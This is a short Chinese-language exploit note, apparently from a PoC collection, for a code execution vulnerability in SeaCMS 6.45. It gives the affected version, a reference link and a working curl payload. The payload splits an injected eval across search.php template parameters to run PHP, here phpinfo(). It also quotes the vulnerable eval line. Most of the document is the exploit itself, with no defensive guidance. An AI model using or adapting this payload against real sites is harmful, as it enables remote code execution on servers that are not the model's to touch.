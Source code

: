 ## seacms 6.45

### 代码执行漏洞

影响版本

* 6.45

参考链接

* [漏洞预警 | 海洋CMS（SEACMS）0day漏洞预警](http://www.freebuf.com/vuls/150042.html)

Poc

```
curl 127.0.0.1/search.php -d 'searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();'
```

关键代码

```
# payload 放在 IF 条件里，导致代码执行
@eval("if(".$strIf."){\$ifFlag=true;}else{\$ifFlag=false;}");
```


